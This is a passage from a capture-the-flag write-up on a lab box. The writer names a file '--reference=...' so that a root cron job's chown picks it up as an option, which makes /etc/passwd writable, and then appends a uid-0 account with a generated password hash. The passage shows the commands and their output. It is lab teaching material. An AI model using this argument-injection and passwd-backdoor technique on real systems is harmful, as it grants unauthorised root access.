 Immediately what comes to mind for me is taking ownership of a file like `/etc/passwd` as sec. I need a file to be the reference, so just create one. Then I need the file that will be interpreted as a flag. I’ll name it `--reference=test`. To create a file with this weird name, I’ll run `touch -- --reference=test`. In Linux, `--` tells the shell that anything that follows is a filename, and not an argument. With that in place, I’ll create a symbolic link to `passwd`:

```

[sec@shrek src]$ ln -s /home/sec/user.txt 
[sec@shrek src]$ touch -- --reference=user.txt
[sec@shrek src]$ ln -s /etc/passwd
[sec@shrek src]$ ls -l
total 4
lrwxrwxrwx 1 sec  users 11 Jul 17 02:41  passwd -> /etc/passwd
-rw-r--r-- 1 sec  users  0 Jul 17 02:41 '--reference=user.txt'
-rw-r--r-- 1 root root  91 Aug 22  2017  thoughts.txt
lrwxrwxrwx 1 sec  users 18 Jul 17 02:41  user.txt -> /home/sec/user.txt

```

Once the cron runs, `/etc/passwd` is now owned by sec:

```

[sec@shrek src]$ ls -l /etc/passwd
-rw-r--r-- 1 sec users 968 Jul 17 02:40 /etc/passwd

```
*[1 July 2023 update]*: It seems that sometime over the years the ownership of `user.txt` has changed from `sec:user` to `root:root`, so the commands as shown above don’t work. Thanks to InvertedClimbing for the tip on this one! Any other file owned by sec would still work. I just need to give it a file whose permissions I want to copy. So something like this will still work:

```

[sec@shrek src]$ ln -s /home/sec/.bashrc
[sec@shrek src]$ touch -- --reference=.bashrc
[sec@shrek src]$ ln -s /etc/passwd

```

### passwd

Now I just need to add a root user to `/etc/passwd`. I’ll create a hash:

```

[sec@shrek src]$ openssl passwd -1 0xdf
$1$LDbqXSxU$TnJPI4lNp/q00QKZYZw0G.

```

Now I’ll add the string to `passwd`, with uid and gui both 0 for root:

```

[sec@shrek src]$ echo 'oxdf:$1$LDbqXSxU$TnJPI4lNp/q00QKZYZw0G.:0:0:pwned:/root:/bin/bash' >> /etc/passwd

```
